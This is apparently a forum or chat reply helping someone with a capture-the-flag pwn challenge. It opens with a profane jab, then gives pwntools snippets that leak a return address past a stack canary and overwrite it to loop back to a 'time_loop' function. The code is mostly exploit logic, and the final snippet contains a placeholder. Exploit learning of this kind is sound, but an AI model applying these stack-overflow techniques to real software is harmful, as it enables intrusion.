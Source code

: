 you are being a little too exitced now, you need to calm the fuck down 


doing 
```
p.send(b'B' * 24 + p64(canary) + b'C' * 8) # prevsering canary 
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
print(output)
return_addr = output[40:].ljust(8, b'\x00')
print(return_addr)
return_addr = u64(return_addr)
# timeloop_address = return_addr - rip offset + timeloop offset
timeloop_address = return_addr - 0x1373 + 0x11e9
print(hex(return_addr))
print(hex(timeloop_address))
```

on the second day, does not work because `output` gets terminated because of the canary you wrote

you can pad with something else, get the return address and on the last day which you don't ened to rely on the output to leak anything. You can then preverse the canary value as well as overwriting the return address back to time_loop 

Therefore, it should be something like the following instead:

Second day
```
p.send(b'B' * 24 + b'C' * 16) # 
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
print(output)
return_addr = output[40:].ljust(8, b'\x00')
print(return_addr)
return_addr = u64(return_addr)
# timeloop_address = return_addr - rip offset + timeloop offset
timeloop_address = return_addr - 0x1373 + 0x11e9
print(hex(return_addr))
print(hex(timeloop_address))
```


Last day:

```
p.send(b'B' * 24 + p64(canary) + b'C' * 8 + <time_loop>) # prevsering canary 
p.recvuntil(b"\n")
output = p.recvuntil(b"Dawn")
print(output)
return_addr = output[40:].ljust(8, b'\x00')
print(return_addr)
return_addr = u64(return_addr)
# timeloop_address = return_addr - rip offset + timeloop offset
timeloop_address = return_addr - 0x1373 + 0x11e9
print(hex(return_addr))
print(hex(timeloop_address))
```
